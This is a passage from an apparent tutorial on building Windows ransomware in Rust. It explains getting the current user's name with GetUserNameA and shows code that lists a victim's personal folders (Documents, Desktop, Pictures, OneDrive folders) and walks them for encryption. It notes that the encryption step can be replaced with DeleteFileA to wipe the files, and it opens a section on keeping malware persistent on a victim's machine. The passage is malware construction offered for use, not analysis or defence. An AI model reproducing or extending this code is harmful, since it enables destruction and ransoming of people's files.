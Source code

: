 First, we call **GetUserNameA** with NULL for the name because we only care about the name's length. This will be written into our mutable variable *size*. From there, we can allocate enough memory in the buffer for this before calling **GetUserNameA** again to write it into our buffer.


Inside this directory, there are a lot of directory that we don't necessarily want to go through like files and directories created by 3rd party softwares because they tend to use this directory a lot. We must specify the list of directory we want to go through.


``` rust
    let dir_names = [
        "Contacts",
        "Desktop",
        "Documents",
        "Downloads",
        "Favorites",
        "Music",
        "OneDrive\\Attachments",
        "OneDrive\\Desktop",
        "OneDrive\\Documents",
        "OneDrive\\Pictures",
        "OneDrive\\Music",
        "Pictures",
        "Videos",
    ];

    for dir in dir_names.iter() {
        let mut full_path = String::from("C:\\Users\\");
        full_path.push_str(str::from_utf8(&user_name[..]).unwrap());
        full_path.push_str("\\");
        full_path.push_str(dir.clone());
        full_path.push_str("\\*");
        // extract path and call traverse
        let full_path: CString = CString::new(full_path.as_bytes()).unwrap();
        traverse(full_path);
    }
```


For every directory name in the *dir_names* list, we add it into our directory path and call **traverse** on them, and that is about it.


To traverse through and delete instead of encrypt, we can just do the same thing without the encryption part and replace that with a call to [DeleteFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-deletefilea).


### 2. Persistent


A good malware should always find a way to remain persistent on a victim's computer. To maintain persistent means to be able to keep running even after the victim tries to reboot or shutdown the machine. 

